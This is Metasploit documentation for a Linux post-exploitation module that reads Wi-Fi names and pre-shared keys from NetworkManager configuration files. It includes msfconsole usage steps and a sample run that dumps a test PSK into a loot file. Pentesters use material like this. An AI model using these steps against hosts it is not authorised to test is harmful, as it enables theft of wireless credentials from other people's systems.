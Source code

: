 ## Vulnerable Application

This module collects 802-11-Wireless-Security credentials such as
Access-Point name and Pre-Shared-Key from Linux NetworkManager
connection configuration files.


## Verification Steps

1. Start msfconsole
1. Get a `root` session
1. Do: `use post/linux/gather/enum_psk`
1. Do: `set session <session ID>`
1. Do: `run`
1. You should receive credentails for wireless connections


## Options

### DIR

The path for NetworkManager configuration files (default: `/etc/NetworkManager/system-connections/`)


## Scenarios

### Ubuntu 22.04.1 (x86_64)

```
msf6 > use post/linux/gather/enum_psk 
msf6 post(linux/gather/enum_psk) > set session 1
session => 1
msf6 post(linux/gather/enum_psk) > run

[*] Reading file /etc/NetworkManager/system-connections//Profile 1.nmconnection
[*] Reading file /etc/NetworkManager/system-connections//test

802-11-wireless-security
========================

 AccessPoint-Name  PSK
 ----------------  ---
 test              1234567890

[+] Credentials stored in: /root/.msf4/loot/20221120081233_default_192.168.200.204_linux.psk.creds_045512.txt
[*] Post module execution completed
msf6 post(linux/gather/enum_psk) > 
```
